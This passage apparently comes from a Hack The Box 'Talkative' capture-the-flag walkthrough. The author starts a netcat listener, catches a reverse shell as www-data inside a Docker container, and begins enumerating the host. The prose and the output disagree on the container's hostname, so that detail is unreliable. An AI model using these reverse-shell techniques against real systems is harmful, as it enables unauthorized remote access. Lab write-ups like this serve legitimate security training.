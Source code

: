 ![](attachments/talkative_20.png)

After setting up a listener, I refreshed the main page.
Soon I could get a shell.

```bash
┌──(kali㉿kali)-[~/htb/talkative]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.155] 57688
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell

www-data@2fb70f59ad53:/var/www/talkative.htb/bolt/public$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



# Shell as `saul` on talkative

### Enumeration

This host is also a Docker container. There’s a `.dockerenv` file at the system root. The hostname is ba67799048d7, and the IP is 172.17.0.11:

```bash
www-data@2fb70f59ad53:/$ pwd
pwd
/


www-data@2fb70f59ad53:/$ ls -al
ls -al
total 80
drwxr-xr-x   1 root root 4096 Mar 14 04:58 .
drwxr-xr-x   1 root root 4096 Mar 14 04:58 ..
-rwxr-xr-x   1 root root    0 Mar 14 04:58 .dockerenv
drwxr-xr-x   1 root root 4096 Mar  6  2022 bin
drwxr-xr-x   2 root root 4096 Dec 11  2021 boot
...SNIP...


www-data@2fb70f59ad53:/$ hostname
hostname
2fb70f59ad53

```